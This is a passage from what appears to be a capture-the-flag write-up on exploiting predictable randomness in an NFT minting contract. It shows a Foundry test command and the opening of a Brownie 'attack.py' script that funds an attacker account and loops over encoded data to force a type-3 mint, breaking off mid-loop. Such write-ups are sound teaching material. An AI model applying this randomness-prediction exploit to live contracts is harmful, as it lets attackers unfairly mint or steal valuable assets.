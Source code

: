 - If so then only we are going to mint because as we already know the outcome so know we are going to mint type `3` NFT. The rest is for debugging purpose. The `assert` statement is checking if the type is `3` or not. So let's run it.
- Command:
```py
forge test --match-path test/hack.t.sol -vvv
```

![](assets/p-nft2.png)


# Brownie
- Here is the `attack.py` script.
```py
#!/usr/bin/python3
from brownie import interface, web3, accounts, chain
from scripts.helpful_scripts import get_account
from colorama import Fore
from eth_abi import encode
from eth_abi.packed import encode_packed


# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack():
    nft = interface.INFT("0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC")

    # print(dir(nft))
    attacker = accounts.at(
        "0x0000000000000000000000000000000000001337", force=True
    )  # get_account()

    # send 1 ETH to attacker
    admin = get_account()
    admin.transfer(attacker, "1 ether").wait(1)

    # print(web3.eth.blockNumber)
    # print(attacker.address)
    # exit()
    nft_id = nft.id()
    # print(nft_id)

    for _ in range(100):
        encoded_data = encode(
            ["uint256", "address", "uint256"],
            [
```